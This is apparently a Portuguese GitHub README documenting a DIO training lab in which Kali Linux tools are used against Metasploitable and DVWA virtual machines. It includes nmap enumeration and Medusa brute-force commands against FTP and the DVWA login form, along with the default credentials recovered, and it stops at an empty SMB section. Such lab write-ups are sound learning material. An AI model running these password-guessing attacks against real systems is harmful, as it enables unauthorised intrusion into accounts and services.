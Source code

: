 # Desafio de ataque Kali Linux da DIO

Repositório criado para documentação do desafio realizado da DIO.

## Informações e assuntos gerais

Inicialmente foram apresentados tipos comuns de ataque como: Ataques de dicionário, força bruta ou híbridos (partindo de wordlists porém fazendo modificações adaptáveis); Também foi abordado sobre password spraying que seria o ato de utilizar uma senha da vítima em vários sites e logins.

## Preparação de ambiente e ferramentas

O próximo passo foi o download e instalação das VMs Kali Linux e Metasploitable que serão utilizados no laboratório, assim como instalação/atualização de ferramentas para uso posterior como: Ncrack, John the Ripper, WPScan, Patator, Hydra, e Nmap. Todas sendo baseadas em quebra de usuário e senhas sendo algumas com certos ajustes finos visando fugir de detecções.

## Verificação e enumeração

Procedimentos de verificação de conexão e enumeração foram feitos como:

Pingar as máquinas entre si utilizando o comando:
> ping -c 4 192.168.0.X

sendo X referente a máquina local da **minha** rede.

Verificação de versão, portas e serviços abertos, utilizando Nmap na máquina alvo:
> nmap -sV -p 21,22,80,443,139 192.168.0.X

Tentativa de conexão com ftp para verificar situaçao do serviço
> ftp 192.168.0.X

## Entrando em ação com Medusa
Nos tópicos abaixo foram feitos ataques em ambiente controlado tanto em rede local quanto ambiente web.

### Tentativa de ataque em máquina local

Para intrusão na máquina, foi escolhido o programa **Medusa**. Utilizando listas de usuários e senhas já prontas, o comando utilizado foi:
> medusa -h 192.168.0.X -U usuarios.txt -P senhas.txt -M ftp -t 4

Após um certo tempo de processo o aplicativo retorna sucesso exibindo as credenciais:
> User: msfadmin / Password: msfadmin

### Tentativa de ataque no DVWA

Para acesso do sistema web foi inserido o endereço:
> 192.168.0.X/dvwa/login.php

Ao tentar efetuar uma tentativa de login, analisando através das ferramentas de desenvolvedor em Network>Request é possível obter os parâmetros que o servidor utiliza como entrada e confirmação de login bem sucedido ou não.
> "username:" "password:" "Login:"

Utilizando novamente o programa Medusa, a tentativa de ataque automatizada será feita utilizando novamente wordlists prontas de usuários e senhas, segue comando utilizado:
> medusa -h 192.168.0.X -U usuarios.txt -P senhas.txt -M http \
> -m PAGE: '/dvwa/login.php' \
> -m FORM: 'username=^USER^&password=^PASS^&Login=Login' \
> -m 'FAIL=Login failed' -t 4

Após processamento, foi retornado como sucesso o login:
> "username=admin" e "password=password"

## Exploração de SMB
